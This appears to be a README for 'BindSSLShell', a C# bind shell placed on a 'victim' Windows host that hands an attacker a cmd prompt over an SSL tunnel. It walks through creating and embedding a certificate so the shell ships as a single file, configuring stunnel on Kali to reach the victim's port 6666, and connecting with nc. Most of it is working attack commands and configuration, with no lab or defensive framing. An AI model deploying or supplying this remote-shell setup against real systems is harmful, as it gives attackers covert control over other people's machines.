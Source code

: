 # BindSSLShell
### New release available: BindSSLShellv2

How to BSOS [Bindshell over SSL] ver 1.0

* -Server (the victim): BindSSLShell.exe, console application coded in C# (FW Net 3.5) IDE Visual Studio CE 2017
* -Client (the attacker): Kali Linux with stunnel installed
<br/>
For the server side (the victim)

1. create the certificate:
   1. move to the makecert location, in my case C:\Program Files (x86)\Windows Kits\10\bin\10.0.17763.0\x64
   1. open a cmd as administrator and execute the following: 
   >makecert.exe -r -pe -n "CN=localhost" -sky exchange -sv server.pvk server.cer
   1. enter required password, then execute: 
   >pvk2pfx -pvk server.pvk -spc server.cer -pfx server.pfx
   1. enter required server password
1. include the Server.pfx as resource in your VS project (console app) and set the Copy to the output directory as Copy. Eventually you can embed the certificate and load it at runtime, more info:<br/>https://stackoverflow.com/questions/3314140/how-to-read-embedded-resource-text-file, so you will have to deploy a single file.
<br/>	
In our attacker machine (Kali Linux) we will use stunnel (since the server require SSL) in conjunction with nc

1. install stunnel:
	>apt-get install stunnel
1. configure stunnel to forward nc traffic over his ssl tunnel. we must create the file <b>/etc/stunnel/stunnel.conf</b> with the following content:
	>[nc]<br/>
	>client = yes<br/>
	>accept = localhost:8443<br/>
	>connect = <Victim IP>:6666<br/>
	
	<br/>so we listeng on the port 8443 and we forward the traffic to the victim IP port 6666. Of coures you have to set the Victim Ip (server side) value according
	
1. start stunnel
	>service stunnel4 start
		
1. check if it's running (optional)
	
	>netstat -tulp
	
	the output should be similar to:
	>Active Internet connections (only servers)
	>Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
	>tcp        0      0 localhost:8443          0.0.0.0:*               LISTEN      1156/stunnel4       
	>tcp6       0      0 localhost:8443          [::]:*                  LISTEN      1156/stunnel4       

1. presuming that you already lunched the bindshell on the victim you can connect to it through the tunnel:
	>nc localhost 8443
	
1. you should get a cmd prompt
